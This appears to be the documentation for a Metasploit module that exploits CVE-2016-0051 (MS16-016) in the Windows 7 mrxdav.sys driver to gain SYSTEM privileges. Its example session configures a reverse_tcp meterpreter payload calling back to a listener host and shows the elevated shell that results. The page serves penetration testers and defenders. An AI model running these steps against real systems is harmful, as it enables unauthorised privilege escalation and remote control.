 ## Introduction

This module exploits a null pointer dereference vulnerability present in the `mrxdav.sys` kernel driver on Windows 7 x86.  The vulnerability is described by MS16-016 and CVE-2016-0051.  The module allows the user to spawn a new payload, such as meterpreter, on the target system with elevated privileges (NT AUTHORITY\SYSTEM)

## Usage

You'll first need to obtain a session on the target system.  Next, once the module is loaded, one simply needs to set the `payload` and `session` options.  From here, running the module will result in the payload being executed with system level privileges.

An example session follows:


```
meterpreter > background
[*] Backgrounding session 5...
msf exploit(handler) > use exploits/windows/local/ms16_016_webdav
msf exploit(ms16_016_webdav) > set session 5
session => 5
msf exploit(ms16_016_webdav) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(ms16_016_webdav) > set lport 4567
lport => 4567
msf exploit(ms16_016_webdav) > set lhost 192.168.1.203
lhost => 192.168.1.203
msf exploit(ms16_016_webdav) > run

[*] Started reverse TCP handler on 192.168.1.203:4567
[*] Launching a process to host the payload DLL, then reflectively injecting the DLL and running it...
[*] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (957999 bytes) to 192.168.1.221
[*] Meterpreter session 12 opened (192.168.1.203:4567 -> 192.168.1.221:49266) at 2016-07-05 22:07:34 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
